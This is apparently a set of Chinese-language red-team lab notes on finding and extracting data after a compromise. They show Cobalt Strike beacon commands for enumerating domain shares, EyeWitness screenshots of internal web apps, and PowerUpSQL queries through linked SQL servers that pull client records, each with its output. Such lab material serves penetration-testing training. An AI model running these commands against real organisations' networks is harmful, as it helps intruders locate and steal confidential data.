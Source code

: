 # Data Hunting & Exfiltration

数据通常会存储在共享文件夹、数据库、SharePoint、内部 wiki 等的各种位置.

# File Shares

```Find-DomainShare```查找所有共享目录，加```-CheckShareAccess ```表示可以访问的
```
beacon> powershell Find-DomainShare -ComputerDomain cyberbotic.io -CheckShareAccess

Name     Type Remark              ComputerName      
----     ---- ------              ------------      
data$       0                     dc-1.cyberbotic.io

beacon> ls \\dc-1.cyberbotic.io\data$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 17kb     fil     03/25/2021 12:54:11   63ec08038c04ac60dab340ee9569e690dataMar-25-2021.xlsx
 214kb    fil     03/25/2021 13:02:53   Apple iPhone 8.ai
 1mb      fil     03/25/2021 13:02:55   Boeing 787-8 DreamLiner Air Canada.ai
 540kb    fil     03/25/2021 13:02:54   Caterpillar 345D L.ai
 829kb    fil     03/25/2021 13:02:55   Ducati 1098R (2011).ai
 895kb    fil     03/25/2021 13:02:55   Volkswagen Caddy Maxi (2020).ai
```

# Internal Web Apps

[EyeWitness](https://github.com/FortyNorthSecurity/EyeWitness)这个工具可以从内部网络应用中截取数据截图等信息，主要用于内部网络应用的信息收集

> EyeWitness 旨在截取网站的屏幕截图，提供一些服务器标头信息，并在已知的情况下识别默认凭据。

> EyeWitness 设计为在 Kali Linux 上运行。它会自动检测您使用 -f 标志提供的文件，作为每个新行上带有 URL 的文本文件、nmap xml 输出或 nessus xml 输出。--timeout 标志是完全可选的，它允许您在尝试呈现和截屏网页时提供最大等待时间。

```
root@kali:/opt/EyeWitness/Python# cat /root/targets.txt
10.10.17.71
10.10.17.25
10.10.17.68

root@kali:/opt/EyeWitness/Python# proxychains4 ./EyeWitness.py --web -f /root/targets.txt -d /root/dev --no-dns --no-prompt

Starting Web Requests (3 Hosts)
Attempting to screenshot http://10.10.17.71
[*] WebDriverError when connecting to http://10.10.17.71
Attempting to screenshot http://10.10.17.25
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.17.25:80  ...  OK
Attempting to screenshot http://10.10.17.68
[*] WebDriverError when connecting to http://10.10.17.68
Finished in 12.967030048370361 seconds
```

```
PS C:\Users\Administrator\Desktop> pscp -r root@kali:/root/dev 。
```

![alt alt](https://rto-assets.s3.eu-west-2.amazonaws.com/data-hunting/eyewitness-report.png?width=1920)

# Databases

使用工具：PowerUpSQL

```Get-SQLColumnSampleDataThreaded```在一个或多个实例中搜索列名中包含特定关键字的数据库
```
beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "project" -SampleSize 5 | select instance, database, column, sample | ft -autosize

Instance                     Database Column      Sample         
--------                     -------- ------      ------         
srv-1.dev.cyberbotic.io,1433 master   ProjectName Mild Sun       
srv-1.dev.cyberbotic.io,1433 master   ProjectName Warm Venus     
srv-1.dev.cyberbotic.io,1433 master   ProjectName Grim Lyric     
srv-1.dev.cyberbotic.io,1433 master   ProjectName Precious Castle
srv-1.dev.cyberbotic.io,1433 master   ProjectName Fine Devil  
```

```Get-SQLQuery```搜索链接
```
beacon> powershell Get-SQLQuery -Instance "srv-1.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select * from information_schema.tables')"

TABLE_CATALOG TABLE_SCHEMA TABLE_NAME            TABLE_TYPE
------------- ------------ ----------            ----------
master        dbo          spt_fallback_db       BASE TABLE
master        dbo          spt_fallback_dev      BASE TABLE
master        dbo          spt_fallback_usg      BASE TABLE
master        dbo          spt_values            VIEW      
master        dbo          spt_monitor           BASE TABLE
master        dbo          MSreplication_options BASE TABLE
master        dbo          VIPClients            BASE TABLE
```

```
beacon> powershell Get-SQLQuery -Instance "srv-1.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select column_name from master.information_schema.columns')"

column_name
-----------
City
Name
OrgNumber
Street
VIPClientsID
```

```
beacon> powershell Get-SQLQuery -Instance "srv-1.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select top 5 OrgNumber from master.dbo.VIPClients')"

OrgNumber  
---------  
65618655299
69838663099
12289506999
73723428599
51766460299
```